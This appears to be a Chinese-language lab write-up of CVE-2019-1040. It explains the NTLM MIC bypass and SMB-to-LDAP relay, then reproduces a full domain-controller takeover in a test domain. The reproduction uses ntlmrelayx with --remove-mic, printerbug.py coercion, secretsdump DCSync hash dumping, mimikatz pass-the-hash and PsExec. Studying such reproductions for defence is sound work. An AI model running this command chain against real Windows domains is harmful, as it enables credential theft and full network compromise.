








# CVE-2019-1040

## 一、原理

2019年6月，Microsoft发布了一条安全更新。该更新针对CVE-2019-1040漏洞进行修复。利用该漏洞攻击者可以**绕过NTLM MIC（消息完整性检查）保护进行中间人攻击，即将其他终端的身份验证流量中继到目标服务器**。通过这种攻击使得攻击者在仅有一个普通域账号的情况下可以远程控制  Windows 域内的任何机器，包括域控服务器。

该漏洞有两种利用方式：

+ **Exchange攻击流程**：使用任何AD帐户，通过SMB连接到目标Exchange服务器，并触发SpoolService错误。目标服务器将通过SMB回连至攻击者主机，使用ntlmrelayx将SMB身份验证中继到LDAP。使用中继的LDAP身份验证，为攻击者帐户授予DCSync权限。攻击者帐户使用DCSync转储AD中的所有密码哈希值。
+ **Kerberos委派攻击流程**：使用任何AD帐户，通过SMB连接到目标服务器，并触发SpoolService错误。目标服务器将通过SMB回连至攻击者主机，使用ntlmrelayx将SMB身份验证中继到LDAP。使用中继的LDAP身份验证，将目标服务器的基于资源的约束委派权限授予攻击者控制下的计算机帐户。攻击者作为受害者服务器上的任何用户进行身份验证。

## 二、环境

windows 2012 R2：域控 192.168.15.161

windows 2012 R2 + Exchange 2016： 邮件服务器 192.168.15.158

windows7：攻击机 192.168.15.132

域用户：geroge (也是邮件服务的用户)

## 三、细节

### 3.1 客户端与服务器端的SMB通信

**SMB2 / Negotiate Protocol** Negotiate  Protocol是在SMB2的任何新TCP会话上发出的第一个SMB2命令，它用于协商要使用的协议版本。Negotiate  Protocol命令分为Negotiate Protocol Request/ Negotiate Protocol Response两部分：

+ Negotiate Protocol Request： 客户端向服务器发送第一个SMB请求：“Negotiate Protocol Request”。这个请求包含了客户端所支持的各种 SMB Dialect。

+ Negotiate Protocol Response: 服务器收到该请求后，选择一个它支持的最新版本（比如NTLM 0.12），再通过“Negotiate Protocol Response”回复给客户端。

**SMB2 / Session Setup** SMB2 / Session Setup命令用于对用户进行身份验证并获取分配的UserID。此命令通常是SMB2 / Negotiate Protocol阶段完成后从客户端发出的第一个命令。Session Setup分为两部分：

+ Session Setup Request: Negotiate Protocol阶段结束之后，客户端请求和服务器建立一个session，在客户端发送的Session Setup Request里，包含了身份验证请求。

+ Session Setup Response: 服务器回复是否通过验证。

### 3.2 SpoolService/printer bug

触发SpoolService/printer bug，会强制Windows主机通过MS-RPRN RPC接口向攻击者进行身份验证。  Windows的MS-RPRN协议用于打印客户机和打印服务器之间的通信，默认情况下是启用的。协议定义的RpcRemoteFindFirstPrinterChangeNotificationEx()调用创建一个远程更改通知对象，该对象监视对打印机对象的更改，并将更改通知发送到打印客户端。

任何经过身份验证的域成员都可以连接到远程服务器的打印服务（spoolsv.exe），并请求对一个新的打印作业进行更新，令其将该通知发送给指定目标。之后它会将立即测试该连接，即向指定目标进行身份验证（攻击者可以选择通过Kerberos或NTLM进行验证）。另外微软表示这个bug是系统设计特点，无需修复。 

### 3.3 SMB中继LDAP思路以及难点

默认情况下，SMB中的NTLM身份验证:NEGOTIATE_SIGN为set状态 ，将此SMB流量中继到LDAP时，由于此时的Negotiate Sign设置为set，该标志会触发LDAP签名，而此SMB流量为Attacker从Exchange服务器上中继而来，无法通过LDAP的签名校验，从而被LDAP忽略，导致攻击失败。

为了防止攻击失败，需要将NEGOTIATE_SIGN设置为Not set，MIC保护不被篡改。如果简单的改包，将NEGOTIATE_SIGN设置Not set，将会导致MIC校验不通过，需要寻找一种可以绕过MIC校验的方式，以便更改包中的值。在绕过MIC校验之后，更改NEGOTIATE_SIGN值为Not set，使得在不触发LDAP签名校验的情况下，将SMB中继LDAP。

**MIC校验**

NTLM身份验证由3钟消息类型组成，NTLM_NEGOTIATE，NTLM_CHALLENGE，NTLM_AUTHENTICATE，一般位于SMB协议中SessionSetup阶段。

为了确保恶意行为者不在传输过程中处理消息，在NTLM_AUTHENTICATE消息中添加了一个额外的MIC（消息完整性代码）字段。MIC是使用会话密钥应用于所有3个NTLM消息的串联的HMAC_MD5，该会话密钥仅对启动认证的帐户和目标服务器是已知的。因此，试图篡改其中一条消息的攻击者（例如，修改签名协商）将无法生成相应的MIC，这将导致攻击失败。

**MIC校验绕过**

Microsoft服务器允许无MIC 的NTLM_AUTHENTICATE消息。 如果想要将SMB身份验证中继到LDAP，并完成中继攻击，可以通过如下步骤： 取消MIC校验以确保可以修改数据包中的内容：

+ 从NTLM_AUTHENTICATE消息中删除MIC

+ 从NTLM_AUTHENTICATE消息中删除版本字段（删除MIC字段而不删除版本字段将导致错误）。

**LDAP签名绕过**

在绕过MIC校验之后，可以修改NEGOTIATE_SIGN值以便将SMB流量顺利通过LDAP签名校验 将NEGOTIATE_SIGN设置为not set以绕过LDAP验证，

+ 取消设置NTLM_NEGOTIATE消息中的签名标志 ：NTLMSSP_NEGOTIATE_ALWAYS_SIGN，NTLMSSP_NEGOTIATE_SIGN
+ 取消设置NTLM_AUTHENTICATE消息中的以下标志： NTLMSSP_NEGOTIATE_ALWAYS_SIGN，NTLMSSP_NEGOTIATE_SIGN，NEGOTIATE_KEY_EXCHANGE，NEGOTIATE_VERSION

**SMB中继LDAP流程**

为了实现SMB中继LDAP流程，使用ntlmrelayx.py工具进行中继，

Ntlmrelayx中继流程如下：

+  取消设置NTLM_NEGOTIATE消息中的签名标志（NTLMSSP_NEGOTIATE_ALWAYS_SIGN，NTLMSSP_NEGOTIATE_SIGN） 
+ 从NTLM_AUTHENTICATE消息中删除MIC以及版本字段 ，取消设置NTLM_AUTHENTICATE消息中的以下标志：NTLMSSP_NEGOTIATE_ALWAYS_SIGN，NTLMSSP_NEGOTIATE_SIGN，NEGOTIATE_KEY_EXCHANGE，NEGOTIATE_VERSION。

## 四、复现

### 4.1 Exchange攻击流程

1. **NTLM中继**

   执行ntlmrelayx.py脚本进行NTLM中继攻击，设置SMB服务器并将认证凭据中继到LDAP协议。其中--remove-mic选项用于清除MIC标志，--escalate-user用于提升指定用户权限。

   `python ntlmrelayx.py --remove-mic --escalate-user peggy -t ldap://192.168.15.161 -smb2support`

   

2. **触发SpoolService/printer bug**

   `python printerbug.py 域名/geroge:"password"@邮件服务器机器名.域名.com 192.168.15.132`

   

   [printbug.py][https://github.com/dirkjanm/krbrelayx]脚本报错，wireshark抓包分析，

   

   发现身份认证已完成，执行后续命令时失败，猜测原因是因为命名管道spoolss无法访问导致的，使用[checker.py][https://github.com/worawit/MS17-010]可以看到spoolss管道无法使用。

   Exchange服务器上只有Microsoft XPS Document Writer一个默认安装的打印机，添加一个新的打印机Add a printer->the printer that I wanted isn't listed->next->...。再使用checker.py测试发现spoolss管道已可以使用。

   

   重新执行printbug.py脚本，

   

   不用管提示的错误。稍等片刻，ntlmrelay程序会收到exchange服务器发来的身份认证信息并执行ntlm中继攻击，

   

   结果显示中继成功且普通用户Peggy拥有了replication-get-changes-all权限。

3. **获取所有密码Hash值**

   `python secretsdump.py park.com/peggy@192.168.15.161 -just-dc`

   

4. **利用mimikatz进入域控**

   利用dump的hash进行pth: `mimikatz.exe privilege::debug "sekurlsa::pth /user:Administrator /domain:park /ntlm:18ada8xxxxxxxxxxxxxxxxx770f"`，会自动打开一个新的控制台，输入`whoami`得到的是自己的本地账户，不过可以远程访问域控。

   
   
   值得注意的是需要以管理员权限运行cmd，再调用mimikatz，否则会报”ERROR kuhl_m_sekurlsa_acquireLSA ; handle on memory“等错误。
   
   接下来，使用PsExec工具远程启动域控的cmd（PsExec工具在SysinternalsSuite中，可以远程执行命令），即拿下了域控。
   
   
   
### 4.2 Kerberos委派攻击流程

Kerberos委派攻击与Exchange攻击流程类似，区别在于Kerberos委派攻击触发辅助域控制器的printerbug。辅助域控制器(SDC)回连Attacker主机使用的认证用户是其本地计算机账户，因为辅助域控制器的计算机账户并不在Exchange Windows Permissions组内，不具有修改ACL权限，但是可以通过此身份在DC上添加一个新计算机账户，并修改其约束委派授权，授予它对受害计算机（辅助域控制器）的委派权限，最后使用secretsdump.py得到辅助域控制器上的hash值。
      
## 五、困惑

   CVE-2018-8581同样使用SMB中继LDAP的方式进行漏洞利用，并未提到MIC绕过的事宜，wireshark抓包来看，中继到LDAP的NTLM_AUTHENTICATE消息中依然存在MIC字段，且NTLMSSP_NEGOTIATE_ALWAYS_SIGN被置位，有待进一步了解。

对于上述问题，CVE-2018-8581是将NTLM从HTTP中继到LDAP，而CVE-2019-1040是将NTLM从SMB中继到LDAP，这是它们之间的区别，详细过程参见[wireshark抓包数据][./resources/cve-2019-1040.pcapng]。

## 参考文献

[freebuf cve-2019-1040][https://www.freebuf.com/vuls/207399.html]

[Dirk-jan Mollema][https://dirkjanm.io/exploiting-CVE-2019-1040-relay-vulnerabilities-for-rce-and-domain-admin/]

[github poc][https://github.com/dirkjanm/krbrelayx]

